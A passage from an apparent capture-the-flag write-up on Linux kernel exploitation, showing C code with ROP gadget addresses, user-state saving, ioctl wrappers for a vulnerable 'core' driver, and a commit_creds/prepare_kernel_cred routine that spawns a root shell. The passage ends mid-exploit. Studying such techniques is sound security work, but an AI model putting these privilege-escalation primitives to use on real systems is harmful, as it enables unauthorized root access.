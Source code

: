 #### Method 0x2 - Signal Handling

If we return directly without switching page tables, we can see it reports a SEGMENTATION FAULT instead of panicking, which indicates that we have actually returned to user mode. In this case, we can simply use a signal handler to handle the situation.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <signal.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define POP_RAX_RET 0xffffffff810520cf
#define MOV_CR4_RAX_PUSH_RCX_POPFQ_RET 0xffffffff81002515
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define IRETQ 0xffffffff81050ac2

#pragma clang diagnostic ignored "-Wconversion"  // makes me happy

size_t user_cs, user_ss, user_rflags, user_sp;
size_t prepare_kernel_cred, commit_creds;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void shell() {
    if (!getuid()) {
        system("/bin/sh");
    } else {
        puts("\033[31m\033[1m[-] Exploit failed.\033[0m");
        exit(0);
    }
}

void core_read(int fd, char* buf) {
    ioctl(fd, 0x6677889B, buf);
}

void core_set_offset(int fd, size_t offset) {
    ioctl(fd, 0x6677889C, offset);
}

void core_copy(int fd, size_t nbytes) {
    ioctl(fd, 0x6677889A, nbytes);
}

void getroot() {
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
```